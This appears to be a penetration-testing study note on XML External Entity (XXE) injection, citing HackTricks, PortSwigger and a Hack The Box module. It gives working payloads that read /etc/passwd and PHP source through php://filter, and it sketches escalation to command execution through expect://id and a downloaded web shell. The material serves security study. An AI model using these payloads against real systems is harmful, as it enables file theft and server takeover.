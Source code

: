 # XXE - XEE - XML External Entity

[Hacktricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)

[PortSwigger](https://portswigger.net/web-security/xxe)

&#x20;Hack the box Web attacks module Recommended!

`XML External Entity (XXE) Injection` vulnerabilities occur when XML data is taken from a user-controlled input without properly sanitizing or safely parsing it, which may allow us to use XML features to perform malicious actions.

## Detection

{% hint style="danger" %}
Always try simple payloads first
{% endhint %}

```
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

### Reading Sensitive Files

```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

### Reading Source Code

```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

> This trick only works with php application&#x20;

### Remote Code Execution with XXE

In addition to reading local files, we may be able to gain code execution over the remote server. The easiest method would be to look for `ssh` keys, or attempt to utilize a hash stealing trick in Windows-based web applications.

we may still be able to execute commands on PHP-based web applications through the `PHP://expect` filter, though this requires the PHP `expect` module to be installed and enabled.

**If the XXE directly prints its output, we can execute basic commands as `expect://id`**

The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app

